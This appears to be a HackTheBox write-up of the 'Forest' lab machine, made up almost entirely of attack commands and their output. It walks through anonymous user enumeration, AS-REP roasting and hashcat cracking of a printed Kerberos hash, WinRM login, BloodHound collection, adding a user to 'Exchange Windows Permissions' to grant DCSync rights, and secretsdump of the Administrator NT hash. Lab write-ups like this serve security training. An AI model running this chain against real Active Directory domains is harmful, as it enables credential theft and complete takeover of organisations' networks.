 ```yaml
---
title: HackTheBox-Forest
date: 2024-12-23 09:37:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [add-domain-group-member, asrep]     # TAG names should always be lowercase
image : /assets/images/indir.jpg
---
```


## SMB-enum

    ➜  forest nxc smb 10.10.10.161
    SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)

## rpcclient

    ➜  forest rpcclient -U "" -N 10.10.10.161
    rpcclient $> enumdomusers


    ➜  forest cat rpc_users.txt | sed 's/user://g' | sed 's/\[//g' | sed 's/\]//g' | awk '{print $1}' > users.txt

## ASREP

    ➜  forest impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 -usersfile users.txt -request htb.local/


    hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt --force

    $krb5asrep$23$svc-alfresco@HTB.LOCAL:7c791310283b8d5f36e0cfdf20cdd0b4$1bdd25c93680caf7bdce104ccfa45a94080188d77408edc5e864c1593de0c2e922dbcf78670aba1a4e5e8e77befbb3f630902de85a8c69ac09ebbe4a5776eb11b5b974075445ff8f87edd4b1a4eac1ead04b70b8805d221e05e48a3156a1f116a4aec2d76bf5f952ba12ef61d9ecac954f4c5d7817643ba05cb6b5ec570ad8e89a4056a0ae64a24ac9a5e1687aa202f826cb473ca1524e0447c75aab01b97073d7a51a14852b6e1e5aec825d9d2040cb5e49a2db6074f94a7611b7856a3b1aa06a1ad3a9d454a1f52a0c46ef57f267e1e32cec6a82bd30151cac930b56cc2de03934d3beeccb:s3rvice

    svc-alfresco : s3rvice

## winrm-shell

    ➜  forest nxc winrm 10.10.10.161 -u svc-alfresco -p 's3rvice'
    WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
    WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)

## bloodhound linux-abuse

    ➜  bloodhound bloodhound-python -d htb.local -c all -u svc-alfresco -p 's3rvice' --zip -ns 10.10.10.161

## add-domain-group-member

### Windows Abuse
    Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync

### Linux Abuse

    (myenv) ➜  forest bloodyAD --host "10.10.10.161" -d "htb.local" -u "svc-alfresco" -p "s3rvice" add groupMember "Exchange Windows Permissions" "svc-alfresco"

## secretsdump

    ➜  forest impacket-secretsdump svc-alfresco:s3rvice@10.10.10.161
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::

Video walkthrough
[WATCH!](https://youtu.be/fmkgqT4hYrQ?si=LS7HQ49KgGrQSW7K)